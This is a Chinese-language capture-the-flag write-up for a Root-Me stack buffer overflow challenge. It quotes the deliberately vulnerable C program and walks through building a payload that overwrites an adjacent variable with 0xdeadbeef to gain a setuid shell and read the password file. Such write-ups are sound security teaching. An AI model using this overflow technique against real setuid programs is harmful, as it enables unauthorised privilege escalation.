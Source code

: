 ## [[Root-Me](https://www.root-me.org/)] [[App-System](https://www.root-me.org/en/Challenges/App-System/)] [[ELF x86 - Stack buffer overflow basic 1](https://www.root-me.org/en/Challenges/App-System/ELF32-Stack-buffer-overflow-basic-1)] [[解题报告](https://exp-blog.com/safe/ctf/rootme/app-system/elfx86-stackbufferoverflowbasic1/)]

------

水题。

登录靶机后，在当前目录发现 3 个文件：

- .passwd ： 明显是目标文件，但是还没有权限打开
- ch13 ： 由 ch13.c 编译而成的脚本文件，且其 owner 具备 S 位权限
- ch13.c ： ch13 脚本的源文件，只是让我们看一下源码，知道其作用是当变量 `check==0xdeadbeef` 时，就帮当前用户进行提权

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/App-System/%5B01%5D%20%5B5P%5D%20ELF%20x86%20-%20Stack%20buffer%20overflow%20basic%201/imgs/01.png)

那么这题的切入点就在于如何令变量 `check` 的值变成 `0xdeadbeef` 实现当前用户提权，再读取 `.passwd` 文件。

首先来分析一下源码（分析要点我用注释进行标记了）：

```cpp
#include <stdlib.h>
#include <stdio.h>
 
/*
gcc -m32 -o ch13 ch13.c -fno-stack-protector
*/
 
 
int main()
{
 
  int var;
  int check = 0x04030201;		// 初始值是方便让我们对比有没有成功修改了 check 的值
  char buf[40];		// 注意到 数组buf 与 变量check 是相邻的，即它们的内存地址是连续的
 
  // 数组buf 长度只有 40，但这行代码却从标准输入流读取 45 个字符
  // 明显是在暗示可以通过 内存溢出 的方法覆写 变量check 的值
  fgets(buf,45,stdin);
 
  // 这两行输出是让我们确认 内存溢出 的结果的，真贴心
  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);
 
  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");
 
  if (check == 0xdeadbeef)
   {
     printf("Yeah dude! You win!\nOpening your shell...\n");
     system("/bin/dash");
     printf("Shell closed! Bye.\n");
   }
   return 0;
}
```

为了可以准确地通过 **内存溢出** 覆写变量 `check` ，首先需要知道 `fgets` 的特性，这是 API 说明：

```cpp
// fgets 会从  stream 读取 n-1 个字符存储到 s 指针指向的内存块，最后末尾自动补 \0
// 若 stream 的前 n-1 个字符中有换行符 \n，则读取到 \n （包括 \n），最后末尾自动补 \0
// 读取字符的数量只取决于这两个条件，与 s 指向的内存区（如数组）的长度无关
char *fgets 会从 (char *restrict s, int n, FILE *restrict stream);
```

回到这题，数组 `buf` 的长度是 40，而 `fgets` 读取的字符长度是 45，则可以构造如下的 payloads 先测试一下：

`0000000000000000000000000000000000000000abcd`

其中前 40 个字符 `0` 是用于填充数组 `buf` 的，后 4 个字符 ` abcd` 才是利用内存溢出覆写到变量 `check` 的真正的攻击载荷。

执行命令 `./ch13` 运行脚本，再输入这个 payloads ，最后按下回车输入 `\n` ，发现变量 `check` 的值被覆写了。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/App-System/%5B01%5D%20%5B5P%5D%20ELF%20x86%20-%20Stack%20buffer%20overflow%20basic%201/imgs/02.png)

进一步分析变量 `check` 的值，是 `0x64636261`，转换成 ASCII 码就是 `dcba`， 而所输入的 payloads 是 `abcd` ，顺序刚好相反。至此就有足够条件可以构造真正的 payloads 了。

从 `ch13.c` 的源码可以知道，变量 `check` 的目标值是 `0xdeadbeef` ，转换成 ASCII 就是 `Þ­¾ï` 。从测试 payloads 知道，顺序要逆转，因此真正的 payloads 就是：

`0000000000000000000000000000000000000000ï¾­Þ`

执行命令 `./ch13` 运行脚本，然后输入这个 payloads ，最后按下回车输入 `\n` ，发现变量 `check` 的值被成功覆写成 `0xdeadbeef` ， 同时也提权成功。

此时执行命令 `cat .passwd` 成功得到密码，完成挑战。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/App-System/%5B01%5D%20%5B5P%5D%20ELF%20x86%20-%20Stack%20buffer%20overflow%20basic%201/imgs/03.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
